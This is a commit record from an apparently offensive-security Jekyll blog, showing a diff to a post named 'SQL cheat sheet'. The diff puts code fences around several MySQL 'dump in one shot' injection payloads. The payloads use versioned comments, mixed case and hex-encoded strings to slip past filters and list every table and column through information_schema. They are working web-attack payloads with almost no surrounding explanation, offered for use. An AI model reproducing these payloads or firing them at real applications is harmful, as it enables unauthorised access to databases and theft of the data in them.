

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2019-04-13-sql-cheat-shet.md, in a window 1280 px wide and 900 px high, scrolled down 3103 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2019-04-13-sql-cheat-shet.md

````diff
--- a/_posts/2019-04-13-sql-cheat-shet.md
+++ b/_posts/2019-04-13-sql-cheat-shet.md
@@ -171,20 +171,21 @@ CONVERT(group_concat(table_name)+USING+latin5)
 
 ### Dios
 
-
+```
 /*!50000make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)*/
-
-
+```
+```bash
 (/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)
-
+```
+```bash
 (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
-
-
+```
+```bash
 (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))
-
-
+```
+```bash
 (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
-
+```
 
 make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
 
````
